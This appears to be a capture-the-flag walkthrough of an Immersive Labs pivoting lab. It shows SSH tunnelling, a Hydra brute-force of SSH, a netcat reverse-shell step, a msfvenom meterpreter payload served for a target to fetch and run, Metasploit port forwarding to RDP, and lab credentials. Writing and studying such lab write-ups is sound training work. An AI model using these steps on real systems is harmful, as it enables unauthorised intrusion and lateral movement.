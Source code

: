```yaml
---
date: 2025-03-01
categories: [CTF, ImmersiveLabs]
title: "IML - Infrastructure Pen Testing: Ep.7 — Pivoting"
tags: ['hydra', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Infrastructure Pen Testing Ep - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting


![image1](../resources/5c9a57ca981f4eecab592d75a051e28d.png)

![image2](../resources/b70f40d5e07c44ee85804e505797152c.png)

Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```

![image3](../resources/8c001310ce5342bbbbee1b72afd4cfbf.png)

2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```

![image4](../resources/c4f91f3878144690ad885688efb79eb4.png)

3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):
```bash
ssh root@localhost -p 2222

```

![image5](../resources/0e95f194048048259275d46e17513a25.png)

IP's changed

![image6](../resources/51ec4caab6944c13bc33e465e2653707.png)

4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)
```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)
```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to <http://10.102.43.238>

- Create msfvenom payload:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf


![image7](../resources/b3f7337ae52244a28649af39294a54d0.png)

6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```

![image8](../resources/cfa5ddc2e95545febf940bbbf6492b58.png)

```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```

![image9](../resources/01f260de1db541d2a3217cd377877f93.png)
